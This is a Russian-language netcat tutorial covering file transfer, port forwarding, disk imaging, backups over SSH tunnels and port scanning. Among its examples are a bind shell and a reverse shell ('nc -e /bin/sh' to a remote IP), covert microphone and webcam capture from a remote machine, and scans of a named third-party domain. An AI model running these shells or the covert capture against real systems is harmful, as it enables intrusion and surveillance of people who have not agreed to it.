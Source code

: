 # netcat - примеры использования
Утилита netcat позволяет передавать/принимать данные через TCP/UDP соединения.

Шаблон вызова утилиты

    nc host port

Откроем прием (ключ -l) данных на порте 1234 с подробным выводом информации (ключ -v) и продолжением работы после разрыва соединения (ключ -k), по-умолчанию nc разрывает соединение после первого дисконекта.

    nc -lvk 1234

Подключаемся к открытому порту и отправим import antigravity ;)

    nc 127.0.0.1 1234
    import antigravity

Пример более полезного использования nc - передача файла. На принимающей стороне

    nc -l 1234 > file

На отправляющей стороне

    nc localhost 1234 < file

Или можно отдавать файл любому подключившемуся. На передающей стороне

    nc -l 1234 < file

На принимающей стороне

    nc localhost 1234 > file

Пример открытия shell'а на определенном порте (источник). На стороне, где нужно открыть шел

    mkfifo /tmp/pipe;
    sh /tmp/pipe | nc -l 1234 > /tmp/pipe 

Еще один полезный пример с netcat - запуск процесса, с возможностью отслеживания его работы через сеть

    watch w | nc localhost 1234

Удаленно читать логи (первая - сервер, вторая - клиент):

    $ nc -f /var/log/messages | nc -l 31334
    $ nc 172.16.69.143 31334

Использовать вместо telnet (первая - telnet-сервер, вторая - клиент):

    $ nc -l -p 31334 -e /bin/sh
    $ nc 172.16.69.143 31334

Сканировать на открытые порты:

    $ nc -z execbit.ru 1-1024

Осуществлять фингерпринт сервисов на основе баннеров:

    $ echo "QUIT" | nc execbit.ru 1-1024

Организовывать обратный шелл (первая - клиент, вторая - сервер, однако шелл откроется от сервера к клиенту):

    $ nc -e /bin/sh 172.16.69.143 31334
    $ nc -l -p 31334

Делать микрофонную запись с удаленной машины (сервер, клиент):

    $ arecord -f dat -t raw | nc -l 31337
    $ nc 172.16.69.143 31337 | oggenc - -r -o nc.ogg

Получать снимки с web-камеры удаленной машины (сервер, клиент):

    $ while [ 1 ]; do streamer -o /tmp/photo.jpeg; nc -l 31337 < /tmp/photo.jpeg; done
    $ nc localhost 31337 > photo.jpeg

Однако, важно понимать, что существует несколько версий netcat, поведение которых может отличаться. Экземпляр, поставляемый с дистрибутивами Linux, - это оригинал, доживший до наших дней. Все приведенные примеры он отработает без проблем. Версия под названием GNU Netcat не поддерживает опции -e, netcat, распространяемый вместе с BSD-системами, опция -e в нем есть, но предназначена она для шифрования входящего и исходящего трафика методом IPSec ESP:

    $ nc -e 'in ipsec esp/transport//require' -e 'out ipsec esp/transport//require' 172.16.69.143 31334

Кроме того, BSD Netcat способен подключаться к удаленной машине через прокси:

    $ nc -x172.16.64.1:8080 -Xconnect 172.16.69.143 31334

В этом примере прокси находится по адресу 172.16.64.1:8080, а флаг -Xconnect говорит о том, что он работает с протоколом HTTP. Также поддерживаются SOCKS версий 4 и 5, но о них следует информировать netcat через флаг -X4 или -X5.

Сам netcat легко использовать в качестве прокси или редиректора портов, но в этом случае его лучше связать с демоном inetd:

    # echo 'redirect-2525-to-25 2525/tcp' >> /etc/services
    # echo 'redirect-2525-to-25 stream tcp nowait nobody /usr/bin/nc nc -w 2 127.0.0.1 25' >> /etc/inetd.conf
    # killall -HUP inetd

Теперь весь трафик, пришедший на порт 2525, будет перенаправляться на стандартный 25-й SMTP-порт. Таким же образом мы можем завернуть трафик с любого порта на другой порт/машину, просто видоизменив первые две команды.

Кстати, пользователи дистрибутивов Linux могут вообще не заморачиваться с netcat: демон xinetd, ставший стандартом в Linux-системах, сам умеет перенаправлять сетевой трафик:

    $ cat /etc/xinetd/redirect
    service redirect-2525-to-25
    {
        disable = no
        type = UNLISTED
        socket_type = stream
        protocol = tcp
        wait = no
        port = 2525
        redirect = 127.0.0.1 25
        user = nobody
    }

Утилита netcat может также пригодиться для создания образа раздела жесткого диска с возможностью отправки его на удаленный сервер на лету:

    $ dd if=/dev/hdb5 | gzip -9 | nc -l 3333

А на удаленной машине принять созданный образ можно так:

    $ nc 192.168.0.1 3333 | pv -b > myhdb5partition.img.gz

В случае необходимости отправки группы файлов – например, набора конфигурационных файлов – можно скомбинировать netcat и архиватор tar:

    $ tar -czf - /etc/ | nc -l 3333

Дефис в качестве имени файла в параметрах tar необходим для того, чтобы вывести результат работы архиватора на stdin, который затем перенаправляется в netcat. Принять созданный бэкап на удаленной машине можно аналогично изложенному ранее:

    $ nc 192.168.0.1 3333 | pv -b > mybackup.tar.gz

Очевидно, что при подобном использовании netcat информация передается по сети в исходном нешифрованном виде. Для передачи некритических данных это вполне приемлемо, но при передаче какой-либо ценной информации разумно использовать netcat в сочетании с SSH-туннелем.

Использование SSH-туннеля имеет два преимущества:

* Информация передается внутри зашифрованного туннеля, так что она хорошо защищена;
* На сервере не требуется открывать никаких дополнительных портов в конфигурации файрвола, поскольку соединение будет установлено через SSH

На стороне сервера файл в netcat выставляется точно так же, как описано ранее:

    $ cat backup.iso | nc -l 3333

А вот на стороне клиента подключаемся к ожидающему соединений сокету netcat через SSH-туннель:

    $ ssh -f -L 23333:127.0.0.1:3333 me@192.168.0.1 sleep 10; \
    nc 127.0.0.1 23333 | pv -b > backup.iso

Понятно, что есть и другие способы помещения соединения в SSH-туннель, но создание и использование туннеля именно таким образом имеет полезную особенность, что туннель автомагически закрывается при окончании передачи данных через netcat.

Невероятно, но netcat еще можно использовать и для сканирования открытых портов. Для этого поможет параметр -z:

    $ nc -z 192.168.0.1 80-90
    Connection to 192.168.0.1 80 port [tcp/http] succeeded!

В данном примере netcat сканировал диапазон портов 80-90 и сообщил, что на удаленной машине открыт порт 80.

